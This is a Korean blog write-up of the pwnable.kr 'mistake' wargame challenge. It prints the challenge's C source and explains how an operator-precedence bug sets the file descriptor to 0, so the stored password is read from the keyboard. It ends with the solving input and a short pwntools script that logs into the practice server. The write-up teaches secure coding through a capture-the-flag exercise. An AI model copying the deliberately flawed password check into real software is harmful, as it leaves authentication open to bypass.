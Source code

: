 ```yaml
---
title: "[pwnable.kr]Toddler/mistake"
tags: [pwnable.kr, Toddler's Bottle, writeup]
author: eli_ez3r
key: 20180918
modify_date: 2018-09-18
article_header:
  type: cover
  image:
    src: /assets/img/write-up/pwnable_kr.png
---
```


-----

```
We all make mistakes, let's move on.
(don't take this too seriously, no fancy hacking skill is required at all)

This task is based on real event
Thanks to dhmonkey

hint : operator priority

ssh mistake@pwnable.kr -p2222 (pw:guest)
```

-----

```c
#include <stdio.h>
#include <fcntl.h>

#define PW_LEN 10
#define XORKEY 1

void xor(char* s, int len){
        int i;
        for(i=0; i<len; i++){
                s[i] ^= XORKEY;
        }
}

int main(int argc, char* argv[]){

        int fd;
        if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
                printf("can't open password %d\n", fd);
                return 0;
        }

        printf("do not bruteforce...\n");
        sleep(time(0)%20);

        char pw_buf[PW_LEN+1];
        int len;
        if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
                printf("read error\n");
                close(fd);
                return 0;
        }

        char pw_buf2[PW_LEN+1];
        printf("input password : ");
        scanf("%10s", pw_buf2);

        // xor your input
        xor(pw_buf2, 10);

        if(!strncmp(pw_buf, pw_buf2, PW_LEN)){
                printf("Password OK\n");
                system("/bin/cat flag\n");
        }
        else{
                printf("Wrong Password\n");
        }

        close(fd);
        return 0;
}
```

`mistake.c`파일을 열어보면 위와 같다.

-----

### 0x00. Analysis

무작위공격을 방지하기 위해 최대 19초의 sleep을 걸어준다.

그리고 `password` 파일을 열어 내용을 읽어 `pw_buf`에 저장한다. 이후 사용자로 부터 비밀번호를 입력받아 1과 xor한 후 그 값을 `pw_buf`와 비교하여 맞으면 문제가 풀린다. 

Really???

이렇게 코드를 분석 했다면 **당신은 문제를 풀 수 없다. ㅋㅋㅋㅋㅋㅋ**

-----

### 0x01. Real Analysis

```c
if(fd=open("/home/mistake/password",O_RDONLY,0400) < 0){
    printf("can't open password %d\n", fd);
    return 0;
}
```

이 부분을 자세히 살펴보자. 

```c
fd = open("/home/mistake/password",O_RDONLY,0400) < 0
```

특히 이부분이다.

우리가 순간적으로 코드를 분석 할 때, password파일을 열고 해당 파일의 디스크립터 번호가 fd에 들어가며 그 값이 0보다 작으면 if문이 실행된다고 생각하지만...

**[!] 아니다.**

소스코드를 보면 연산자가  2가지가 존재한다. `=` 와 `<` 가 있다. 두개의 연산자 중에서 `<`가 우선 순위가 더 높다.

이렇게 되면 분석이 완전히 달라진다.

`open()` 함수가 실행되고 나서 파일 디스크립트 번호가 부여된다. 파일이 존재하면 이 값은 항상 0보다 클 것이다. 예를들어 `3`이라는 값을 부여받았을 때, `3 < 0` 의 결과는 `False`가 된다.  False는 `0`의 값을 가지므로, `fd`에 `0`이 대입되게 된다.

```c
if(!(len=read(fd,pw_buf,PW_LEN) > 0)){
    printf("read error\n");
    close(fd);
    return 0;
}
```

이후 if문에서 `read`가 실행되는데, 이때 `fd`값이 `0` 이므로, 키보드로 부터 값을 입력받게 된다.

> 그래서 19초가 지나도 반응이 없다가 엔터를 쳐야 "input password :" 텍스트가 보였던 것!!!

따라서, 사용자가 `pw_buf`와 `pw_buf2`의 값을 모두 입력할 수 있다는 것이다.

-----

### 0x02. Exploit

`pw_buf2` ^ `1` = `pw_buf` 이면 되므로,

```
mistake@prowl:~$ ./mistake
do not bruteforce...
1111111111
input password : 0000000000
Password OK
Mommy, the operator priority always confuses me :(
```

끄읏....!!

-----

```python
from pwn import *
import time

conn = ssh("mistake", "pwnable.kr", port=2222, password="guest")
p = conn.process("./mistake")

p.recv()
time.sleep(20)
p.sendline("1111111111")
p.recvuntil("input password : ")
p.sendline("0000000000")

print p.recv()
p.close()
conn.close()
```

-----

